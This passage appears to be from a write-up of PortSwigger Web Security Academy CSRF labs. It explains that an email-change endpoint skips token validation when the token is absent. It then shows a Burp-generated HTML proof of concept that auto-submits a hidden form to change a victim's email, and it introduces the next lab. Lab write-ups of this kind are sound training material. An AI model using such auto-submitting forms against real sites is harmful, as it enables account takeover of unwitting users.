 ---------------------------------------------

In this case the default POST request to change the email contains a parameter “csrf”, but it works if you send only the email and no CSRF token:



![img](images/CSRF%20where%20token%20validation%20depends%20on%20token%20being%20present/1.png)


Clicking "Engagement tools" > "Generate CSRF PoC", it generates an HTML PoC:

```
<html>
  <!-- CSRF PoC - generated by Burp Suite Professional -->
  <body>
    <form action="https://0a27008804d6685d8057df8500ab003c.web-security-academy.net/my-account/change-email" method="POST">
      <input type="hidden" name="email" value="test4&#64;test&#46;com" />
      <input type="submit" value="Submit request" />
    </form>
    <script>
      history.pushState('', '', '/');
      document.forms[0].submit();
    </script>
  </body>
</html>
```

# 04 CSRF where token is not tied to user session

This lab's email change functionality is vulnerable to CSRF. It uses tokens to try to prevent CSRF attacks, but they aren't integrated into the site's session handling system.

To solve the lab, use your exploit server to host an HTML page that uses a CSRF attack to change the viewer's email address.

